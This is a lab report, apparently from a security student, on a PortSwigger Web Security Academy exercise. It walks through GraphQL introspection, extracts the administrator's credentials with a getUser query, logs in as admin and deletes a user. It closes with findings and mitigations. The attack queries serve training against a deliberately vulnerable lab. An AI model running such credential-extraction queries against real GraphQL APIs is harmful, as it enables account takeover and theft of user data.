








#  Lab Report: Accidental Exposure of Private GraphQL Fields

##  Platform
PortSwigger Web Security Academy

---

##  Objective
To identify and exploit a GraphQL vulnerability that exposes sensitive user credentials, gain administrative access, and delete the user `carlos`.

---

##  Overview
This lab demonstrates how improper access control in GraphQL APIs can lead to exposure of sensitive fields such as usernames and passwords. By leveraging introspection and modifying queries, an attacker can retrieve administrator credentials and perform privileged operations.

---

#  Methodology

The following steps were performed:

1. Intercepted GraphQL login request using Burp Suite  
2. Identified GraphQL mutation used for authentication  
3. Performed introspection to discover schema  
4. Located `getUser` query exposing credentials  
5. Modified query to extract administrator credentials  
6. Logged in as administrator  
7. Deleted user `carlos`  

---

#  Exploitation Steps

---

## 🔹 Step 1: Lab Initial State

- Accessed the lab  
- Navigated to login page  

 **Screenshot 1: Lab Initial Page (Not Solved)**  


---

## 🔹 Step 2: Intercept Login Request

- Attempted login with random credentials  
- Captured request in Burp Suite  

Observed GraphQL mutation:

```json
{
  "query": "mutation login($input: LoginInput!) { login(input: $input) { token success } }"
}
```

📸 **Screenshot 2: Login Mutation Request**  


---

## 🔹 Step 3: Perform Introspection

- Sent request to Repeater  
- Inserted introspection query  

```graphql
{
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```

 **Screenshot 3: Introspection Response**  


---

## 🔹 Step 4: Identify Vulnerable Query

- From introspection results  
- Found query:

```graphql
getUser(id: Int)
```

- Returns sensitive fields:
```
username
password
```

 **Screenshot 4: getUser Discovered**  


---

## 🔹 Step 5: Extract Administrator Credentials

Modified request:

```json
{
  "query": "query getUser($id: Int!) { getUser(id: $id) { username password } }",
  "variables": {
    "id": 1
  }
}
```

 ID = 1 corresponds to administrator

Response:

```json
{
  "data": {
    "getUser": {
      "username": "administrator",
      "password": "REDACTED_PASSWORD"
    }
  }
}
```

 **Screenshot 5: Credential Extraction**  


---

## 🔹 Step 6: Login as Administrator

- Used extracted credentials  
- Successfully logged in  

 **Screenshot 6: Admin Account Access**  


---

## 🔹 Step 7: Delete User `carlos`

- Navigated to Admin panel  
- Deleted user `carlos`  

 **Screenshot 7: User Deletion**  


---

## 🔹 Step 8: Lab Solved

- Lab marked as solved  

 **Screenshot 8: Lab Solved Confirmation**  


---

#  Key Findings

- GraphQL API exposed sensitive fields (`username`, `password`)  
- No authorization checks on `getUser` query  
- Direct object reference allowed enumeration of users  

---

#  Vulnerability

## Broken Access Control + Sensitive Data Exposure

The API allows unauthorized access to user credentials through direct queries without proper validation.

---

#  Impact

- Full administrative account takeover  
- Unauthorized access to sensitive data  
- Ability to perform privileged operations (user deletion)  

---

#  Mitigation

- Enforce strict authorization checks on all queries  
- Restrict access to sensitive fields  
- Disable introspection in production environments  
- Implement proper role-based access control (RBAC)  

---

#  Conclusion

This lab highlights how GraphQL APIs can unintentionally expose critical data due to weak access control mechanisms. Attackers can leverage introspection and direct queries to extract sensitive information and escalate privileges.

---
